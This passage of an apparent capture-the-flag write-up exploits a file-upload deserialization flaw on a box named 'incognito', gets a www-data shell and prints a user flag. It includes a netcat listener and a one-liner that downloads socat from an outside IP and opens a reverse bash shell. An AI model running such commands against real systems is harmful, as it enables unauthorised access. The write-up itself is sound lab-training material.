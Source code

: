 2. But first, let’s upload a test file:
> └> echo -n 'testing' > test.txt
![Screenshot 2024-07-17 110009](https://github.com/user-attachments/assets/06bebab7-8962-4cd0-acaf-2013fa4670ec)

We successfully uploaded a file. But where does the file lives??
However, I couldn’t find the uploaded file.
Maybe we can upload our file to a specific path via path traversal?

3. To do so, I’ll write a Python script to upload and trigger the deserialization payload:
![Screenshot 2024-07-17 110206](https://github.com/user-attachments/assets/7bc915c4-a45e-4a54-b25a-d99f1620416d)

> └> nc -lnvp 443
listening on [any] 443 ...

![Screenshot 2024-07-17 110408](https://github.com/user-attachments/assets/cca1c5b2-9a29-449c-985d-3e9baf40bcb6)
Nope. The path traversal doesn’t work.

4. After some trial and error, I found that the uploaded file is in /var/upload/<filename>:
![Screenshot 2024-07-17 110504](https://github.com/user-attachments/assets/14325504-6a70-47f7-90ce-f8d36a614cf9)

> └> python3 upload_file.py
[*] Upload file request:
The file evilObject.pkl has been uploaded.

![Screenshot 2024-07-17 110612](https://github.com/user-attachments/assets/9f0a436c-818b-4f6c-874e-8eeb38bdd09b)

This time it worked!!
I’m user www-data!

5. user.txt:www-data@incognito:/$ cat /home/dev2/user.txt
> d14def35ed0bd914c1c5881fa0fa8090

6. Stable shell via socat:
![Screenshot 2024-07-17 110850](https://github.com/user-attachments/assets/412b9fa7-995f-4529-8026-3f7c18b3c3c9)

> www-data@incognito:/$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

> └> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444                

> 2023/01/24 13:20:40 socat[74118] N opening character device "/dev/pts/1" for reading and writing

> 2023/01/24 13:20:40 socat[74118] N listening on AF=2 0.0.0.0:4444

> 2023/01/24 13:21:16 socat[74118] N accepting connection from AF=2 10.10.115.32:54844 on AF=2 10.9.0.253:4444

> 2023/01/24 13:21:16 socat[74118] N starting data transfer loop with FDs [5,5] and [7,7]

> www-data@incognito:/$ 

> www-data@incognito:/$ export TERM=xterm-256color

> www-data@incognito:/$ stty rows 22 columns 107

> www-data@incognito:/$ ^C
